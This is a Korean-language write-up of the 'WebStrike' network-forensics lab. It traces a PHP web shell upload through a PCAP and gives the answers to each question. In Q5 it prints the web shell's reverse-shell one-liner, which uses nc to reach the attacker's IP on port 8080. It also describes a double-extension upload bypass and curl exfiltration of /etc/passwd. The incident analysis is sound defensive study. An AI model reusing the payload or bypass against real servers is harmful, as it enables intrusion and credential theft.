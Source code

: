 # WebStrike
## 목차

[Questions 1](#q1)

[Questions 2](#q2)

[Questions 3](#q3)

[Questions 4](#q4)

[Questions 5](#q5)


# Scenario
A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.

Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

# Questions

## Q1
Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?

💡 Note: The lab machines do not have internet access. To look up the IP address and complete this step, use an IP geolocation service on your local computer outside the lab environment.

### Answer
tianjin

### 분석
제공된 pcap 파일을 Wireshark를 이용하여 분석한다.

![WebStrike_Q1_1.png](./IMG/WebStrike_Q1_1.png)

Wireshark를 이용해 분석해본 결과 파일 업로드 공격으로 의심되는 로그를 발견할 수 있었다. (php 파일 업로드)

해당 로그의 출발지 ip 주소는 117.11.88.124로 ip를 검색해보면 문제에서 요구하는 공격이 발생한 도시를 확인할 수 있다.

![WebStrike_Q1_2.png](./IMG/WebStrike_Q1_2.png)

## Q2
Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

### Answer
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

### 분석

![WebStrike_Q2_2.png](./IMG/WebStrike_Q2_1.png)

Q1 에서 확인했던 POST 요청을 보면 User-Agent를 확인할 수 있다.

클라이언트가 HTTP를 통해 어떤 요청을 보내면 HTTP 헤더에 사용자 IP 주소와 기기 정보인 User-Agent가 담기게 된다.

## Q3
We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

### Answer
image.jpg.php

### 분석
![WebStrike_Q3_1.png](./IMG/WebStrike_Q3_1.png)
![WebStrike_Q3_2.png](./IMG/WebStrike_Q3_2.png)
첫 번째 공격 시도에서 image.php 라는 웹 쉘 업로드를 시도했으나 실패했다. (Invalid file format, 서버측 유효성 검사를 나타내는 오류 메세지)

![WebStrike_Q3_3.png](./IMG/WebStrike_Q3_3.png)
![WebStrike_Q3_4.png](./IMG/WebStrike_Q3_4.png)
두 번째 공격 시도에서 파일명을 image.jpg.php로 변경한 후 업로드 하여 성공했다. (서버의 필터링 매커니즘 우회)

## Q4
Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

### Answer
/reviews/uploads/

### 분석
![WebStrike_Q4_1.png](./IMG/WebStrike_Q4_1.png)

/admin/uploads 시도 → 404 not found

/uploads 시도 → 404 not found

/admin/ 시도 → 404 not found

![WebStrike_Q4_2.png](./IMG/WebStrike_Q4_2.png)

/reviews/uploads 시도 → 301 moved permanetly (/reviews/uploads/ 디렉터리로 리다이렉션)

![WebStrike_Q4_3.png](./IMG/WebStrike_Q4_3.png)

/reviews/uploads/ → 최종 성공

## Q5
Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

### Answer
8080

### 분석

공격자의 웹 쉘 실행

![WebStrike_Q5_1.png](./IMG/WebStrike_Q5_1.png)

웹 쉘 실행 후 피해를 입은 ip 주소에서 공격자의 8080 포트로 먼저 접속이 되는걸 보면 리버스 쉘로 보임

![WebStrike_Q5_1.png](./IMG/WebStrike_Q5_2.png)

사용된 웹 쉘을 확인해 보자.
netcat을 이용해서 서버가 117.11.88.124 주소의 8080 포트로 접속하여 쉘을 열게된다.

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp /f|/bin/sh -i 2> &1|nc 117.11.88.124 8080 >/tmp/f "); ?>
```

## Q6
Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Answer
passwd

### 분석

![WebStrike_Q6_1.png](./IMG/WebStrike_Q6_1.png)

웹 쉘을 이용하여 pwd, ls /home, cat /etc/paswwd 등의 명령어를 실행한다.

curl 명령어를 이용해 passwd 파일을 탈취해가는 것을 확인할 수 있다.
![WebStrike_Q6_2.png](./IMG/WebStrike_Q6_2.png)

8080 → 54448 은 공격자가 서버로 보내는 명령이고, 54448 → 8080은 서버가 공격자에게 보내는 값이다.

# 마무리
와이어 샤크에서 마우스 우클릭 후 Follow → HTTP Stream을 클릭하면 HTTP 패킷의 스트림을 확인할 수 있다.

HTTP Stream: HTTP 프로토콜을 통해 데이터를 연속적으로 전송하는 방식

Q6에서 write-up은 필터링을 이용했는데 방법은 다음과 같다.

``(tcp.port==8080)&&(ip.src==24.49.63.79)``

이 필터링은 피해자 서버 24.49.63.79에서 공격자의 포트인 8080 로 가는 아웃바운드 트래픽을 걸러낼 수 있게 된다. (반대는 인바운드 트래픽)

![tmp_1.png](./IMG/tmp_1.png)
